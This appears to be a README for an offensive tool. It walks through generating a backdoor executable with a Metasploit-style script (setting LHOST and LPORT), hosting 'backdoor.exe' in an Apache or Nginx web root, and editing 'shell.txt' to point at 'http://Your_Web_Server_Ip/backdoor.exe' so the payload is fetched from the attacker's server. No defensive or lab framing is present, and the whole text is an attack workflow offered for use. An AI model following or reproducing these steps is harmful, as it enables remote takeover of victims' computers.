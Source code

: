 
<h2>Instructions:</h2>

<ol>

<li>Change `CH_me` with LHOST and LPORT in `msf.bash` script:</li>
        <pre><code>nano msf.bash</code></pre>
        
<li>Run the provided `msf.bash` script:</li>
        <pre><code>./msf.bash</code></pre>

<li>Start your Apache or Nginx web server.</li>
        <p>Choose one of the following commands based on your web server:</p>
        <p>For Apache:</p>
        <pre><code>sudo systemctl start apache2</code></pre>
        <p>For Nginx:</p>
        <pre><code>sudo systemctl start nginx</code></pre>

<li>Upload the file created by `msf.bash` to your web server's root directory (usually `/var/www/html`). You can use tools like `mv` to move the file:</li>
        <pre><code>mv backdoor.exe /var/www/html/</code></pre>

 <li>Open `shell.txt` :</li>
        <pre><code>sudo nano shell.txt</code></pre>

 <li>Edit the `Your_Web_Server_Ip` in `shell.txt` with your Apache or Nginx server's IP address.</li>
        <p>Replace `Your_Web_Server_Ip` with the IP address of your server, e.g.,</p>
        <pre><code>http://Your_Web_Server_Ip/backdoor.exe</code></pre>
</ol>
